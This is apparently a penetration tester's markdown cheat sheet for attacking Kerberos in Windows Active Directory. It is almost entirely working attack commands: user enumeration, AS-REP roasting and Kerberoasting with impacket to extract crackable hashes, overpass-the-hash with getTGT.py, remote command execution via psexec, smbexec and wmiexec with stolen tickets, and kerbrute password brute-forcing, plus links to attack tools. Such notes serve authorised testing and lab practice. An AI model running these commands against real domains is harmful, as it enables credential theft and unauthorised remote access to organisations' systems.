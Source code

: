 ```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" $TARGET
```
#### MSF
```
use auxiliary/gather/kerberos_enumusers
```
# Check for Kerberoasting:
```
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip $TARGET -format hashcat/john
```
# GetUserSPNs
```
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
```
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
# Kerberoasting:
```
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```
#### Overpass The Hash/Pass The Key (PTK):
```
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash> -dc-ip $DOMAIN_CONTROLLER_IP
```
```
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key> -dc-ip $DOMAIN_CONTROLLER_IP
```
```
python3 getTGT.py <domain_name>/<user_name>:[password] -dc-ip $DOMAIN_CONTROLLER_IP
```
#### Using TGT key to excute remote commands from the following impacket scripts:
```
python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
```
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
```
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/
```
python kerbrute.py -dc-ip $TARGET -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt
```
https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
https://github.com/GhostPack/Rubeus
https://github.com/fireeye/SSSDKCMExtractor
https://gitlab.com/Zer1t0/cerbero